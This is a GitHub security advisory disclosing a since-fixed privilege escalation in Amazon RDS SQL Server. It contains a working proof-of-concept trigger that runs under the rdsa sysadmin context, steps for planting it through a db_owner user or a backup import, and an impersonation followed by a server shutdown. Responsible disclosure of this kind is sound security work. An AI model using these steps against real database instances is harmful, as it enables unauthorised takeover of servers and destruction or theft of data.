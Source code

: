 ```yaml
---
title: 'Amazon: RDSS SQL Server'
severity: Moderate
ghsa_id: GHSA-6q3w-cw5q-j62f
cve_id: null
weaknesses: []
products:
- ecosystem: Amazon
  package_name: RDSS SQL Server
  affected_versions: RDS Components Are Not Publicly Disclosed
  patched_versions: ''
cvss: null
credits:
- github_user_id: tesh42
  name: Sergei Namniasov
  avatar: https://avatars.githubusercontent.com/u/9165795?s=40&v=4
---
```


### Summary
An arbitrary code can be executed on a managed Amazon RDS SQL Server instance with sysadmin privileges via a [database-level trigger](https://learn.microsoft.com/en-us/sql/relational-databases/triggers/manage-trigger-security) running under the context of the user that calls the trigger. 


### Severity
Moderate - The vulnerability allows for arbitrary code to be executed on a managed Amazon RDS SQL server with sysadmin privileges which can be leveraged to take control of the server.  This vulnerability cannot be used to cause cross-customer impact / database host breakout.

### Proof of Concept
Below is an example of a trigger that runs an arbitrary code with unrestricted access. The trigger grants `CONTROL SEVER` permission to a customer user. `CONTROL SERVER` permission allows a login to impersonate any login on the server including the `rdsa` login that has sysadmin permissions. Effectively, it grants sysadmin permissions without adding the target login to the `sysadmin` server role. 
The trigger is set up to be called when a database user is denied permissions (FOR DENY_DATABASE). RDS uses `rdsa` login with sysadmin permissions to deny permissions to a database user when it is added to the `db_owner` database role.
The trigger will be executed under the context of the login that calls the trigger (EXECUTE AS CALLER). In our case, it will be called under the context of the `rdsa` login, which has sysadmin permissions.

```sql
CREATE OR ALTER TRIGGER evil_trigger ON DATABASE
WITH EXECUTE AS CALLER, ENCRYPTION
FOR DENY_DATABASE
AS
BEGIN
  DECLARE @sql NVARCHAR(MAX) ='DROP TRIGGER evil_trigger ON DATABASE;USE master;GRANT CONTROL SERVER TO admin WITH GRANT OPTION;';
  EXEC (@sql);
END
```
#### Elevate Privileges
Option 1:
Create that trigger in a database of the target instance.
Create a user and add that user to the `db_owner` database role:

```sql
CREATE USER test;
EXEC sp_addrolemember 'db_owner', 'test';
```
Option 2:
Create that trigger in a database on an instance. Create a backup of that database. Import that backup on the target instance:
```sql
exec msdb.dbo.rds_backup_database
        @source_db_name='testdb',
        @s3_arn_to_backup_to='arn:aws:s3:::bucket/testdb.bak';
```

#### Run code with elevated privileges
Execute an arbitrary command with sysadmin privileges:
```sql
EXECUTE AS LOGIN='rdsa';
SELECT SUSER_NAME() AS login, USER_NAME() AS db_user;
SHUTDOWN WITH NOWAIT;
``` 


### Further Analysis
The following table and a database-level trigger can be used for identifying other event types that can be used for running arbitrary code with elevated privileges:
```sql
CREATE TABLE DDLEvents(
  event_date     DATETIME      NOT NULL,
  event_type     NVARCHAR(64)  NULL,
  event_ddl      NVARCHAR(max) NULL,
  event_xml      XML           NULL,
  database_name  NVARCHAR(255) NULL,
  [schema_name]  NVARCHAR(255) NULL,
  [object_name]  NVARCHAR(255) NULL,
  login_name     NVARCHAR(255) NULL
);

ALTER TABLE [DDLEvents] ADD  DEFAULT (GETDATE()) FOR event_date;
GO

CREATE OR ALTER TRIGGER protect_user ON DATABASE
WITH EXECUTE AS CALLER, ENCRYPTION
FOR DDL_DATABASE_LEVEL_EVENTS
AS
BEGIN
  SET NOCOUNT ON;
  DECLARE @EventData XML = EVENTDATA();

  INSERT INTO DDLEvents
  (
    event_type,
    event_ddl,
    event_xml,
    database_name,
    schema_name,
    object_name,
    login_name
  )
  SELECT
    @EventData.value('(/EVENT_INSTANCE/EventType)[1]',   'NVARCHAR(100)'),
    @EventData.value('(/EVENT_INSTANCE/TSQLCommand)[1]', 'NVARCHAR(MAX)'),
    @EventData,
    DB_NAME(),
    @EventData.value('(/EVENT_INSTANCE/SchemaName)[1]',  'NVARCHAR(255)'),
    @EventData.value('(/EVENT_INSTANCE/ObjectName)[1]',  'NVARCHAR(255)'),
    SUSER_SNAME();
END
```

Attack scenario 1:
Prerequisites:
(Option 1) An attacker has access to the instance, they have permission to import a database to the instance and they have permission to write to an S3 bucket associated with the instance.
(Option 2) There is a pipeline or a person that imports a database to an instance. An attacker has access to one of the segments of the pipeline which allows them to create a trigger in a database or replace a backup file.
(Option 3) An attacker convinces someone with required permissions to import a database.
The attacker prepares a backup of a database. That database has a trigger with the code that should be executed.
The attacker imports that backup to a SQL Server instance manually or through a data ingestion pipeline; or convinces someone to import the backup.
The code is executed with sysadmin permissions. Highest permissions which aren’t available to any customer user.

Attack scenario 2:
Prerequisites:
An attacker has permission to create a database trigger in a database on the target instance.
(Option 1) Create a database user and add it to the db_owner database role or wait for someone else to do it.
(Option 2) Run an RDS stored procedure that triggers the database trigger under the context of a user with sysadmin privileges or wait for someone to do that.
The code is executed with sysadmin permissions. Highest permissions which aren’t available to any customer user.

A login with sysadmin privileges has unrestricted access to SQL Server. They aren’t available to customers on a managed instance.An attacker with those privileges can:
Drop or change any data.
Run any RDS stored procedure enabled on the instance including exporting any data to an S3 bucket associated with the instance.
Create logins with any permissions and grant them access to the instance. If the attacker didn’t have direct access to the instance and they can connect to the server, they can create a login to connect to the instance.
If the instance is running on Windows, the attacker might use [extended procedures](https://www.imperva.com/blog/deep-dive-database-attacks-part-ii-delivery-execution-malicious-executables-sql-commands-sql-server/), [OLE automation](https://www.imperva.com/blog/how-to-exploit-sql-server-using-ole-automation/) or [unsafe CLR](https://learn.microsoft.com/en-us/sql/relational-databases/clr-integration/security/clr-integration-code-access-security?view=sql-server-ver16#unsafe) to run command line commands, [manipulate registry](https://www.imperva.com/blog/how-to-exploit-sql-server-using-registry-keys/) or work with OLE automation objects with permissions of the user that runs the SQL Server service.

### Timeline
**Date reported**: 11/01/2022
**Date fixed**: 01/27/2023
**Date disclosed**: 01/30/2023
